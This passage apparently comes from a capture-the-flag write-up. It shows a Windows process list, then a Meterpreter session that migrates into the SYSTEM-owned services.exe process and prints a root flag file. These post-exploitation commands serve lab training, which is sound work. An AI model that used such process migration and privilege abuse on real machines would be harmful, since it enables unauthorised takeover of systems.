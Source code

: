 3016  668   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndexer.exe
3068  668   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe{% endraw %}{% endcapture %} {% include code.html code=code %}

Migrate to `services.exe` process id and get the flag.
{% capture code %}{% raw %}meterpreter > migrate 668
[*] Migrating from 2064 to 668...
[*] Migration completed successfully.

meterpreter > cat "C:\Windows\System32\config\root.txt"
dff0f748678f280250f25a45b8046b4a{% endraw %}{% endcapture %} {% include code.html code=code %}

